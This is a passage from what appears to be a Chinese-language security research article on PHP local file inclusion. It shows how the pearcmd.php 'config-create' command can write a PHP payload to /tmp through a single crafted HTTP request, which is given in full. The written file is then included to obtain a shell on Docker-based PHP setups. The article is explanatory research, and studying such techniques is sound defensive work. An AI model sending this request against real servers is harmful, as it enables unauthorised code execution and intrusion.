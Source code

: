 看看pear中有哪些可以利用的参数：

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/12/ba2b17a2-95ea-441f-ab4e-7dd6edcdba8c.png?raw=true)
](https://www.leavesongs.com/media/attachment/2021/11/01/5b0b1d97-f739-4d67-b98b-82a6d889bd2c.png)

第一眼就看到config-create，阅读其代码和帮助，可以知道，这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。

所以，我构造出最后的利用数据包如下：

`GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/12/8ce1cfa9-7bdd-4f1a-b5d0-1dd8f8b69100.png?raw=true)
](https://www.leavesongs.com/media/attachment/2021/11/01/25526495-da6c-4961-899a-0ca4c6c125bf.png)

发送这个数据包，目标将会写入一个文件`/tmp/hello.php`，其内容包含`<?=phpinfo()?>`：

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/12/5336522d-8971-43f2-a7e9-08c8b2a05a15.png?raw=true)
](https://www.leavesongs.com/media/attachment/2021/11/01/8b834c20-e2bf-434e-a013-b88f518a6ca4.png)

然后，我们再利用文件包含漏洞包含这个文件即可getshell：

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/12/9c6d6c77-67ce-448d-a6d4-f6d7fb7f491c.png?raw=true)
](https://www.leavesongs.com/media/attachment/2021/11/01/6d4093d4-1c7f-4433-86bb-ee0bb3446359.png)

最后这个利用方法，无需条件竞争，也没有额外其他的版本限制等，只要是Docker启动的PHP环境即可通过上述一个数据包搞定。

[0x07 参考链接](#0x07)
------------------

*   https://dl.packetstormsecurity.net/papers/general/LFI\_With\_PHPInfo_Assitance.pdf
*   http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf
*   https://stackoverflow.com/questions/24190389/findfirstfile-undocumented-wildcard-or-bug
*   https://stackoverflow.com/questions/2563316/findfirstfileex-wildcard-characters
*   https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-\_fsrtl\_advanced\_fcb\_header-fsrtlisnameinexpression
*   https://www.jianshu.com/p/dfd049924258
*   https://bugs.php.net/bug.php?id=77231
*   http://www.ietf.org/rfc/rfc3875